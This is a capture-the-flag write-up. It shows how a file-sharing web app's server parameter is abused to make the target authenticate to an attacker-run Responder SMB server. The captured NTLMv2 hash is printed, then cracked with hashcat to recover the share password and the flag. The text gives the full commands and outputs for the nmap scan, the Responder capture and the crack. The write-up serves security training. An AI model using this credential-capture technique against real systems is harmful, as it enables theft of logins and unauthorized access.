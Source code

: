 # File Share (4 Points)
> Hi Expert,
> 
> the file sharing service at http://78.128.216.5:65080 looks as valuable source of  information. Get access to the system and export any valuable data.

> HINT: Check also other services on given server 78.128.216.5.

## Introduction
First things first, lets check what is running on that link. Visiting `http://78.128.216.5:65080` redirects us to `/smbreader?server=localhost&file=message.txt` with response of:

```
Current path is \\localhost\shared\message.txt
Hey you, try to get Samba password for user 'shared', then search flag.txt  :-)
```

Interesting, there is apparently some `smbreader` gadget. This is a reference to Server Message Block protocol - SMB. 

```
SMB Protocol Prefix
 |     Host
 |     |      SMB Share
 |     |      |          File
 |     |      |          |
 v     v      v          v
\\localhost\shared\message.txt
```

However trying `/smbreader?server=localhost&file=flag.txt` expectedly does not work. Since there is also `server` parameter, it looks like we can use it to read samba shares from arbitrary host.

## Other services
Lets do a nmap scan to see what else is running on that host
```
nmap -sV -sC 78.128.216.5
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-17 14:12 CEST
Nmap scan report for 78.128.216.5
Host is up (0.026s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
Service Info: Host: 1B3B795A8C43

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: 1b3b795a8c43
|   NetBIOS computer name: 1B3B795A8C43\x00
|   Domain name: \x00
|   FQDN: 1b3b795a8c43
|_  System time: 2021-10-17T12:13:18+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-17T12:13:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.86 seconds
```

We see that there are two services running:

1. Port 139 - Older SMB on top of NetBIOS
2. Port 445 - Newer SMB over TCP


Maybe the share is not password protected? Lets try to access the share
```
smbclient \\\\78.128.216.5\\shared -U shared 
Enter WORKGROUP\shared's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

No luck here, that means we need to somehow get the password to the share.


## Exploitation
Since reading the file works in the web app, it must be doing an authenticated request. We can supply arbitrary host to read the file from, thus most likely using the same credentials there. What if we could create a malicious SMB server that would look and act like a normal SMB server, however its only interest will be stealing the login credentials?

`Responder` is a tool doing exactly this. For this we will also need some server, I used a cloud VM and allowed ports 139 and 445 as inbound connections in firewall. Then I downloaded Responder from [here](https://github.com/lgandx/Responder), edited the configuration file, `Responder.conf` to only enable SMB protocol, and ran Responder with 

```py
python Responder.py -I <interface name>
```

Now we can navigate to http://78.128.216.5:65080/smbreader?server=ip_of_our_VM&file=message.txt, and in our Responder window, we should see the intercepted authentication hash.

```
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3.3.9

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CRTL-C


[+] Poisoners:
    LLMNR                      [OFF]
    NBT-NS                     [OFF]
    DNS/MDNS                   [OFF]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [OFF]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [OFF]
    SQL server                 [OFF]
    FTP server                 [OFF]
    IMAP server                [OFF]
    POP3 server                [OFF]
    SMTP server                [OFF]
    DNS server                 [OFF]
    LDAP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]


[+] Listening for events...
[SMB] NTLMv2-SSP Client   : x.x.x.x
[SMB] NTLMv2-SSP Username : \shared
[SMB] NTLMv2-SSP Hash     : shared:::207d6e8a88c1e02a:71F4A50A3767EB17955A940F661822D4:0101000000000000008547DC98D0D7017D18291089FFC6820000000002000800430050003800500001001E00570049004E002D0044003600500039004D00370032004C004E003000560004003400570049004E002D0044003600500039004D00370032004C004E00300056002E0043005000380050002E004C004F00430041004C000300140043005000380050002E004C004F00430041004C000500140043005000380050002E004C004F00430041004C0007000800008547DC98D0D7010900240043004900460053002F00330035002E003200300034002E00370037002E0032003200320006000400020000000000000000000000
```

## Cracking the hash
I used hashcat to crack the NTLMv2 hash (rockyou.txt wordlist), as it supports GPU and its much faster than JtR. Mode 5600 stands for `NetNTLMv2`

```
>> hashcat --help | grep 5600
   5600 | NetNTLMv2                                        | Network Protocols
```

```
>> hashcat -m 5600 hash rockyou.txt

SHARED:::207d6e8a88c1e02a:71f4a50a3767eb17955a940f661822d4:0101000000000000008547dc98d0d7017d18291089ffc6820000000002000800430050003800500001001e00570049004e002d0044003600500039004d00370032004c004e003000560004003400570049004e002d0044003600500039004d00370032004c004e00300056002e0043005000380050002e004c004f00430041004c000300140043005000380050002e004c004f00430041004c000500140043005000380050002e004c004f00430041004c0007000800008547dc98d0d7010900240043004900460053002f00330035002e003200300034002e00370037002e0032003200320006000400020000000000000000000000:Iloveyou4
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: SHARED:::207d6e8a88c1e02a:71f4a50a3767eb17955a940f6...000000
Time.Started.....: Fri Nov  5 11:04:03 2021 (1 sec)
Time.Estimated...: Fri Nov  5 11:04:04 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 19096.7 kH/s (9.22ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 393216/14344384 (2.74%)
Rejected.........: 0/393216 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> remmer
Hardware.Mon.#1..: Temp: 63c Util: 32% Core:1708MHz Mem:3504MHz Bus:16

Started: Fri Nov  5 11:04:03 2021
Stopped: Fri Nov  5 11:04:04 2021
```

The correct password is `Iloveyou4`, now we can use any smb client to connect to the share and have a look around. There is a file `flag.txt` containing the flag.
